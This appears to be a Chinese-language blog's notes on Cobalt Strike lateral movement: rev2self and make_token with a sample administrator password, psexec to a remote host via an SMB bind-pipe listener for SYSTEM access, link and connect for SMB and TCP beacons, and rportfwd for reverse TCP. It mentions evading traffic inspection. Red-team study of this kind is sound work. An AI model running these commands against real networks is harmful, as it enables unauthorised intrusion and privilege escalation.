cobaltstrike psexec
在进行pexecz之前一般需要用rev2vself回到原来的回话和克隆token
- rev2self: Revert to your original access token
- make_token: Clone the current access token and set it up to pass the specified username
and password when you interact with network resources. This command does not
validate the credentials you provide and it has no effect on local actions. - psexec: Spawn a session on a remote host. This command generates an executable, copies it to the target, creates a service to run it, and cleans up after itself. You must specify which share (e.g., ADMIN$ or C$) to copy the file to.smb-bind-pipe是建立的smb监听器的名字，创建smb监听器的时候会要求输入端口，不知道意义何在，随便填一个就好。
1
2
3rev2self
make_token administrator aaa123!@#
psexec 192.168.20.30 ADMIN$ smb-bind-pipe
用这种方法上线的权限是系统权限

ps：后来看cs输出，填的端口号会是命名管道的一部分，这样好处就是可以在一个机器上开多个管道吧

cobaltstrike smb pipe
其实上面psexec指定的是smb-bind-pipe listener，那么psexec成功后通信方式就是基于smb。使用smb的好处可以一定程度上规避流量审查。另外一种使用smb办法就是生成windows executes，在目标机器上运行然后link，这种方法拿到的就是，运行这个exe用户的权限而不是system权限。
Use: link [ip address]
Link to the Beacon at the specified IP address.

ps:在使用unlink的时候smb pipe都会断掉，但是smb pipe的进程并不会退出，link两次后通过psexec和运行exe的shell都会恢复
cobaltstrike bind tcp
建立listener后和smb一样，可以用psexec
1 | rev2self |
也可以生成exe，然后使用connect连接
1 | connect 192.168.20.30 |
需要说明的是创建监听器的时候填写的端口并没有什么用

实际监听的时候还是监听的4444端口

加上smb，和tcp，拓扑图如下，蓝色是tcp，黄色是smb

ps：smb和tcp的相同点在于，unlink会同时断掉tcp和smb会话，不同点在于smb可以通过link连接回来，但是connect无法连接回来tcp，原因在于unlink后smb类型进程还是存在，但是tcp的unlink后进程会退出。
cobaltstrike reverse tcp
cs3.13之后新更新的一个listener，相当nice的一点是Linux跳板机上也支持这种操作，不过在创建listener的时候并不会出现。

找到它需要在


命令行如下
1 | rportfwd 23333 windows/beacon_reverse_tcp |
比较“奇怪“的是，这个监听器不能在psexec的执行，只能在生成stageless的时候找到

上线可以看到反向的绿色线，这种方法有个弊端，因为监听的端口往往不是默认放行的端口，所以要求边界机器要关闭防火墙。。。

ps：reverse同样受到unlink的影响